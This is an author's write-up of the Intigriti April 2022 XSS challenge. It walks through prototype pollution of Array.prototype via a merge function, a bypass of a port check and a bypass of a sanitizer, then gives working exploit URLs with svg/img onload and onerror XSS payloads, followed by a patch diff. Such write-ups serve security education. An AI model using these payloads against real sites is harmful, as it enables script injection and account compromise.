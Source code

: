 ```yaml
---
title: Intigriti 0422 XSS Challenge Author Writeup
date: 2022-04-25 08:20:16
tags: [Security]
categories: [Security]
translator: huli
photos: /img/intigriti-0422-xss-challenge-author-writeup/cover-en.png
---
```


<img src="/img/intigriti-0422-xss-challenge-author-writeup/cover-en.png" style="display:none">

Challenge URL: https://challenge-0422.intigriti.io/

<!-- more -->

## Solution

TL;DR

1. Pollute Array.prototype via `merge` function
2. Bypass `checkHost()`
3. Set `innerHTML` and bypass `sanitize()` to perform XSS

### Step1. Prototype pollution on Array.prototype

First, let's take a look at the `merge` function:

``` js
function merge(target, source) {
  let protectedKeys = ['__proto__', "mode", "version", "location", "src", "data", "m"]

  for(let key in source) {
    if (protectedKeys.includes(key)) continue

    if (isPrimitive(target[key])) {
      target[key] = sanitize(source[key])
    } else {
      merge(target[key], source[key])
    }
  }
}

function sanitize(data) {
  if (typeof data !== 'string') return data
  return data.replace(/[<>%&\$\s\\]/g, '_').replace(/script/gi, '_')
}
```

In the `merge` function, `__proto__` is blocked, but we can bypass it using `constructor.prototype`.

Then, below is the key of the first step:

``` js
const qs = m.parseQueryString(location.search)

let appConfig = Object.create(null)
appConfig["version"] = 1337
appConfig["mode"] = "production"
appConfig["window-name"] = "Window"
appConfig["window-content"] = "default content"
appConfig["window-toolbar"] = ["close"]
appConfig["window-statusbar"] = false
appConfig["customMode"] = false

if (qs.config) {
  merge(appConfig, qs.config)
  appConfig["customMode"] = true
}
```

Although we can't pollute `Object.prototype` because `appConfig` is created from `Object.create(null)`, we can pollute `Array.prototype` via `appConfig['window-toolbar']` which is an array!

So, we can pollute `Array.prototype` by providing a config object like this:

```
config[window-toolbar][constructor][prototype][0]=abc
// equals to ['close'].constructor.prototype.0 = 'abc'
```

But the question is, what property should be polluted? 

### Step2. Bypass checkHost

There is another call to `merge`, and it's the second part of the challenge:

``` js
function checkHost() {
  const temp = location.host.split(':')
  const hostname = temp[0]
  const port = Number(temp[1]) || 443
  return hostname === 'localhost' || port === 8080
}

let devSettings = Object.create(null)
devSettings["root"] = document.createElement('main')
devSettings["isDebug"] = false
devSettings["location"] = 'challenge-0422.intigriti.io'
devSettings["isTestHostOrPort"] = false

if (checkHost()) {
  devSettings["isTestHostOrPort"] = true
  merge(devSettings, qs.settings)
}
```

We need to make `checkHost()` return `true` to perform another merge call. 

In `checkHost`, it checks if hostname is localhost or port is 8080, let's take a closer look at the check:

``` js
function checkHost() {
  const temp = location.host.split(':')
  const hostname = temp[0]
  const port = Number(temp[1]) || 443
  return hostname === 'localhost' || port === 8080
}
```

It seems invulnerable, but what if `location.host` has no port?

For example, assumed `location.host` is `intigriti.io`, then `temp` becomes `['intigriti.io']`, and `temp[1]` is `undefined` because the length of the array is 1.

Here comes a cool way to bypass the check, what if `Array.prototype[1]` has been polluted? 

The JavaScript engine will look up `Array.prototype[1]` since `temp` has no property `1`. So, combined with the step1, we can pollute `Array.prototype[1]` to bypass the check:

```
config[window-toolbar][constructor][prototype][1]=8080
```

By the way, I got this idea from another challenge called `vm-calc` made by [@Strellic_](https://twitter.com/Strellic_) in DiceCTF 2022, kudos to the creator.

### Step3. Override innerHTML

After bypass the check, we have another merge call:

``` js
let devSettings = Object.create(null)
devSettings["root"] = document.createElement('main')
devSettings["isDebug"] = false
devSettings["location"] = 'challenge-0422.intigriti.io'
devSettings["isTestHostOrPort"] = false

if (checkHost()) {
  devSettings["isTestHostOrPort"] = true
  merge(devSettings, qs.settings)
}
```

`devSettings["root"]` is an HTML element, so we can use `?settings[root][innerHTML]` to set it's innerHTML and try to perform XSS.

But, it's not gonna work for two reasons.

First, there is a `sanitize` function for filtering `<` and `>`.

Second, the element only inserted to DOM after `m.mount()`, the content will be override by mithril.js


For the first issue, we can resolve it by using a bug in `sanitize` function:

``` js
function sanitize(data) {
  if (typeof data !== 'string') return data
  return data.replace(/[<>%&\$\s\\]/g, '_').replace(/script/gi, '_')
}
```

What if `data` is an array? For example, `['<a>hello</a>']`?

Because it's not a string, so it won't be sanitized, the function just return the original value. When you assign this array to `innerHTML`, it casts to string.

So, we can use `?settings[root][innerHTML][0]=<svg onload=alert(1)>` to bypass the sanitizer.

We are close to the end but need to address the last issue. The content of the element will be override by `m.mount` so our payload in `innerHTML` won't work, how should we resolve this?

The idea is simple, what if we can set `innerHTML` to `document.body` instead of `<main>`? Then our payload won't be override by mithril.js

There is a property called ownerDocument, we can access `document` via this.

So, we can set innerHTML on body and perform XSS this way:

```
config[window-toolbar][constructor][prototype][1]=8080
settings[root][ownerDocument][body][innerHTML][0]=<svg onload=alert(document.domain)>
```

URL:
https://challenge-0422.intigriti.io/challenge/Window%20Maker.html?config[window-toolbar][constructor][prototype][1]=8080&settings[root][ownerDocument][body][innerHTML][0]=%3Cstyle%20onload%3Dalert(document.domain)%3E

There is another magic to solve the issue without overriding `document.body.innerHTML`.

As pointed out [here](https://github.com/terjanq/Tiny-XSS-Payloads/blob/5e8603974ef878e1230ae05e7f79b9467d862e2c/payloads.js#L93), `<img src=x onerror=alert(1)>` works even before inserted into the DOM. We can use this magic to set `root.innerHTML` and get XSS.

URL:
https://challenge-0422.intigriti.io/challenge/Window%20Maker.html?config[window-toolbar][constructor][prototype][1]=8080&settings[root][innerHTML][0]=%3Cimg%20src%3Dx%20onerror%3Dalert(document.domain)%3E

## Plot twist

What if I told you that all the solutions above are unintended?

The challenge was easier than I thought because I made a few bugs, making the intended solution unnecessary and redundant. It’s like there should be five steps for solving the challenge, but you can solve it in step2 because of the bugs.

The challenge should be more complex and interesting.

So, here comes **the revenge of Intigriti 0422 challenge**!

I patched the bugs and hosted the fixed challenge on GitHub, here is the challenge URL: https://aszx87410.github.io/xss-challenge/revenge-of-intigriti-0422

You can found the diff below:

``` diff
function sanitize(data) {
- if (typeof data !== 'string') return data
+ if (typeof data !== 'string') data = String(data)

function merge(target, source) {
- let protectedKeys = ['__proto__', "mode", "version", "location", "src", "data", "m"]
+ let protectedKeys = ['__proto__', "mode", "version", "location", "src", "data", "m", "Object"]
```

The revenge of Intigriti 0422 challenge runs until `2022-05-01T23:59:59+00:00`, you can DM me on [Twitter](https://twitter.com/aszx87410) if you find the solution.

Please noted that the revenge of Intigriti 0422 challenge is a challenge **hosted by my own, not Intigriti**, so there is no swag voucher for the winners.